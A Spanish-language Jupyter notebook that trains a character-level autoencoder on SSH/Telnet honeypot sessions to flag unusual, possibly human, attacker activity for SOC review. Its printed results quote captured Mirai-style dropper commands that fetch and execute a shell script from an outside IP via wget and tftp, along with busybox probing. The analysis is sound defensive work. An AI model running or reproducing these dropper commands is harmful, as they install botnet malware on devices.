# Modelo 2 — Autoencoder de secuencias para detección de anomalías
## Encontrar la sesión "rara" entre los ataques automatizados

El EDA mostró que las sesiones activas son casi todas automatizadas: ejecutan
payloads tipo Mirai (`cd /tmp; wget ...; chmod; sh ...`) que se repiten desde
muchas IPs. La idea de este modelo:

> Entrenar un **autoencoder a nivel de carácter** que aprenda a reconstruir esas
> secuencias de comandos "normales" (automatizadas). Una sesión que el modelo
> **no logre reconstruir bien** (alto error de reconstrucción) es *atípica* —
> candidata a actividad humana o a una campaña novedosa.

Es detección de anomalías **no supervisada**: no necesitamos etiquetas humano/bot,
que justamente no tenemos.

In [1]:
import os
os.environ["TF_CPP_MIN_LOG_LEVEL"] = "2"
import numpy as np
import pandas as pd
import matplotlib.pyplot as plt
import seaborn as sns
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers

sns.set_theme(style="whitegrid")
plt.rcParams["figure.dpi"] = 110
FIG = "../reports/figures"
np.random.seed(42); tf.random.set_seed(42)

df = pd.read_parquet("../data/processed/sessions.parquet")
act = df[df.n_commands > 0].copy().reset_index(drop=True)
print(f"Sesiones activas (con comandos): {len(act)}")

Sesiones activas (con comandos): 429


## 1. Codificación a nivel de carácter

Convertimos cada secuencia de comandos en una secuencia de enteros (un entero por
carácter), truncada/rellenada a longitud fija `L=400`. El índice 0 se reserva como
*padding*.

In [2]:
L = 400
# vocabulario de caracteres (0 = PAD)
chars = sorted({ch for s in act["commands"] for ch in s})
stoi = {ch: i + 1 for i, ch in enumerate(chars)}
VOCAB = len(stoi) + 1
print(f"Tamaño de vocabulario (incl. PAD): {VOCAB}")

def encode(s):
    ids = [stoi[ch] for ch in s[:L]]
    return ids + [0] * (L - len(ids))

X = np.array([encode(s) for s in act["commands"]], dtype=np.int32)
print("Matriz de secuencias:", X.shape)

Tamaño de vocabulario (incl. PAD): 89
Matriz de secuencias: (429, 400)


## 2. Arquitectura del autoencoder (Conv1D)

- **Encoder:** Embedding de caracteres → dos bloques Conv1D + MaxPooling que
  comprimen la secuencia (400 → 100) en una representación latente.
- **Decoder:** Conv1D + UpSampling que reconstruyen la longitud original y
  predicen, en cada posición, una distribución softmax sobre el vocabulario.
- **Pérdida:** entropía cruzada categórica dispersa (reconstruir el carácter
  original en cada posición).

In [3]:
def build_autoencoder(L, vocab, emb=32):
    inp = keras.Input(shape=(L,))
    x = layers.Embedding(vocab, emb)(inp)
    # encoder
    x = layers.Conv1D(64, 5, activation="relu", padding="same")(x)
    x = layers.MaxPooling1D(2)(x)                 # 400 -> 200
    x = layers.Conv1D(32, 5, activation="relu", padding="same")(x)
    x = layers.MaxPooling1D(2)(x)                 # 200 -> 100  (cuello de botella)
    # decoder
    x = layers.Conv1D(32, 5, activation="relu", padding="same")(x)
    x = layers.UpSampling1D(2)(x)                 # 100 -> 200
    x = layers.Conv1D(64, 5, activation="relu", padding="same")(x)
    x = layers.UpSampling1D(2)(x)                 # 200 -> 400
    out = layers.Conv1D(vocab, 1, activation="softmax")(x)
    m = keras.Model(inp, out)
    m.compile(optimizer=keras.optimizers.Adam(1e-3),
              loss="sparse_categorical_crossentropy")
    return m

ae = build_autoencoder(L, VOCAB)
ae.summary()

Model: "model"


_________________________________________________________________


 Layer (type)                Output Shape              Param #   


 input_1 (InputLayer)        [(None, 400)]             0         


 embedding (Embedding)       (None, 400, 32)           2848      


...

 conv1d_4 (Conv1D)           (None, 400, 89)           5785      


Total params: 44665 (174.47 KB)


Trainable params: 44665 (174.47 KB)


Non-trainable params: 0 (0.00 Byte)


_________________________________________________________________


## 3. Entrenamiento

Reservamos un 15% de validación solo para monitorear con *early stopping* y evitar
que el modelo memorice. El objetivo de reconstrucción es la propia secuencia de
entrada (autoencoder).

Epoch 1/120


12/12 - 1s - loss: 4.4063 - val_loss: 4.1281 - 1s/epoch - 106ms/step


Epoch 2/120


12/12 - 0s - loss: 3.4693 - val_loss: 2.6323 - 215ms/epoch - 18ms/step


Epoch 3/120


...

12/12 - 0s - loss: 0.5499 - val_loss: 0.6026 - 218ms/epoch - 18ms/step


Epoch 119/120


12/12 - 0s - loss: 0.5484 - val_loss: 0.6025 - 208ms/epoch - 17ms/step


Epoch 120/120


12/12 - 0s - loss: 0.5473 - val_loss: 0.6057 - 205ms/epoch - 17ms/step




In [4]:
idx = np.random.permutation(len(X))
n_val = int(0.15 * len(X))
val_idx, tr_idx = idx[:n_val], idx[n_val:]
X_tr, X_val = X[tr_idx], X[val_idx]

es = keras.callbacks.EarlyStopping(monitor="val_loss", patience=12,
                                   restore_best_weights=True)
hist = ae.fit(X_tr, X_tr, validation_data=(X_val, X_val),
              epochs=120, batch_size=32, callbacks=[es], verbose=2)

plt.figure(figsize=(7,4))
plt.plot(hist.history["loss"], label="train")
plt.plot(hist.history["val_loss"], label="val")
plt.title("Pérdida de reconstrucción"); plt.xlabel("época")
plt.ylabel("sparse CE"); plt.legend()
plt.tight_layout(); plt.savefig(f"{FIG}/09_m2_loss.png"); plt.show()

## 4. Error de reconstrucción por sesión

Para cada sesión calculamos el error medio de reconstrucción **solo sobre las
posiciones reales** (ignorando el padding). Un error alto = el autoencoder no
supo reproducir esa secuencia = sesión atípica.

count    429.000
mean       0.869
std        0.322
min        0.699
50%        0.781
90%        0.938
95%        1.512
99%        2.428
max        3.339
Name: recon_err, dtype: float64





Sesiones marcadas como anómalas (error > p95): 22


In [5]:
probs = ae.predict(X, batch_size=64, verbose=0)        # (N, L, VOCAB)
eps = 1e-9
true_p = np.take_along_axis(probs, X[..., None], axis=2)[..., 0]  # prob del char real
ce = -np.log(true_p + eps)                              # CE por posición
mask = (X != 0).astype(np.float32)                      # ignora PAD
recon_err = (ce * mask).sum(1) / mask.sum(1)            # error medio por sesión
act["recon_err"] = recon_err

print(act["recon_err"].describe(percentiles=[.5,.9,.95,.99]).round(3))

plt.figure(figsize=(8,4))
plt.hist(recon_err, bins=50, color="#4C72B0")
thr = np.percentile(recon_err, 95)
plt.axvline(thr, color="red", ls="--", label=f"umbral p95 = {thr:.2f}")
plt.title("Distribución del error de reconstrucción por sesión")
plt.xlabel("error medio de reconstrucción"); plt.ylabel("nº sesiones"); plt.legend()
plt.tight_layout(); plt.savefig(f"{FIG}/10_m2_error_hist.png"); plt.show()
print(f"\nSesiones marcadas como anómalas (error > p95): {(recon_err > thr).sum()}")

## 5. ¿Qué aprendió el modelo? Normales vs. anómalas

Contrastamos las sesiones que el autoencoder reconstruye **mejor** (las
automatizadas típicas) con las que reconstruye **peor** (las atípicas).

In [6]:
def short(s, n=140): return (s[:n] + " …") if len(s) > n else s

print("="*80)
print("SESIONES MEJOR RECONSTRUIDAS (automatizadas típicas, error bajo):")
print("="*80)
for _, r in act.nsmallest(5, "recon_err").iterrows():
    print(f"[err={r.recon_err:.2f} | {r.n_commands} cmds | gap_mean={r.gap_mean:.3f}s]")
    print(f"   {short(r.commands)}\n")

print("="*80)
print("SESIONES MÁS ANÓMALAS (error alto = candidatas humanas/novedosas):")
print("="*80)
for _, r in act.nlargest(10, "recon_err").iterrows():
    print(f"[err={r.recon_err:.2f} | {r.n_commands} cmds | gap_mean={r.gap_mean:.3f}s | {r.country}]")
    print(f"   {short(r.commands)}\n")

SESIONES MEJOR RECONSTRUIDAS (automatizadas típicas, error bajo):
[err=0.70 | 10 cmds | gap_mean=0.058s]
   enable || system || shell || sh || cat /proc/mounts; /bin/busybox OXMMD || cd /dev/shm; cat .s || cp /bin/echo .s; /bin/busybox OXMMD || tft …

[err=0.72 | 10 cmds | gap_mean=0.131s]
   enable || system || shell || sh || cat /proc/mounts; /bin/busybox GGYNY || cd /dev/shm; cat .s || cp /bin/echo .s; /bin/busybox GGYNY || tft …

[err=0.72 | 10 cmds | gap_mean=0.156s]
   enable || system || shell || sh || cat /proc/mounts; /bin/busybox WQSII || cd /dev/shm; cat .s || cp /bin/echo .s; /bin/busybox WQSII || tft …

[err=0.72 | 1 cmds | gap_mean=nans]
   cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://51.81.7.97/njs.sh; chmod +x njs.sh; sh njs.sh; tftp 51.81.7.97 -c get tft …

[err=0.72 | 1 cmds | gap_mean=nans]
   cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://51.81.7.97/njs.sh; chmod +x njs.sh; sh njs.sh; tftp 51.81.7.97 -c get tft …

SESIONES M

## 6. Validación cruzada con la heurística de ritmo

No tenemos etiquetas humano/bot, pero sí una **pista independiente**: el ritmo
entre comandos (`gap_mean`). Un humano teclea con pausas (>2s). Si las sesiones
con error de reconstrucción alto tienden también a tener ritmo lento, ambas
señales —que el modelo *nunca vio el tiempo*— estarían apuntando a lo mismo,
reforzando que detectan actividad no automatizada.

¿ritmo humano (>2s)?  False  True 
¿anómala (AE)?                    
False                   357     15
True                     12      2 

Correlación error_reconstrucción vs gap_mean: 0.146




In [7]:
sub = act[act.n_commands >= 2].copy()
sub["anomala"] = sub["recon_err"] > np.percentile(act["recon_err"], 95)
sub["ritmo_humano"] = sub["gap_mean"] > 2.0

ct = pd.crosstab(sub["anomala"], sub["ritmo_humano"],
                 rownames=["¿anómala (AE)?"], colnames=["¿ritmo humano (>2s)?"])
print(ct, "\n")

# correlación error vs ritmo
corr = sub[["recon_err", "gap_mean"]].corr().iloc[0,1]
print(f"Correlación error_reconstrucción vs gap_mean: {corr:.3f}")

plt.figure(figsize=(7,5))
plt.scatter(sub["gap_mean"].clip(upper=10), sub["recon_err"],
            c=sub["anomala"].map({True:"#C44E52", False:"#4C72B0"}), alpha=0.6)
plt.axvline(2.0, color="green", ls="--", lw=0.8, label="ritmo humano (2s)")
plt.axhline(np.percentile(act["recon_err"],95), color="red", ls="--", lw=0.8, label="umbral anomalía (p95)")
plt.xlabel("gap_mean entre comandos (s, clip 10)")
plt.ylabel("error de reconstrucción (AE)")
plt.title("Anomalía (AE, solo comandos) vs. ritmo (tiempo)")
plt.legend(); plt.tight_layout(); plt.savefig(f"{FIG}/11_m2_cruce.png"); plt.show()

## 7. Conclusiones del Modelo 2

- El autoencoder aprende a reconstruir con bajo error los **payloads automatizados
  repetidos** (droppers Mirai), confirmando que ese es el patrón dominante.
- Las sesiones con **alto error de reconstrucción** son las atípicas: comandos
  poco frecuentes, estructura inusual o exploración no estándar — justo las
  candidatas a intervención humana o campañas nuevas.
- El cruce con la heurística de ritmo (señal temporal independiente, que el modelo
  no usó) permite valorar si ambas perspectivas coinciden al señalar sesiones no
  automatizadas.

**Cierre del enfoque combinado:** el Modelo 1 filtra, en la fase de login, qué
sesiones escalarán a ejecutar comandos; el Modelo 2 analiza *qué hacen* esas
sesiones y aísla las raras para revisión humana del SOC. Juntos cubren el objetivo
de priorizar la respuesta a incidentes.

In [8]:
os.makedirs("../models", exist_ok=True)
ae.save("../models/modelo2_autoencoder.keras")
# guardamos también el ranking de anomalías para el reporte
act[["session_id","country","n_commands","gap_mean","recon_err","commands"]] \
   .sort_values("recon_err", ascending=False) \
   .to_csv("../reports/anomalias_top.csv", index=False)
print("Autoencoder guardado y ranking de anomalías exportado a reports/anomalias_top.csv")

Autoencoder guardado y ranking de anomalías exportado a reports/anomalias_top.csv
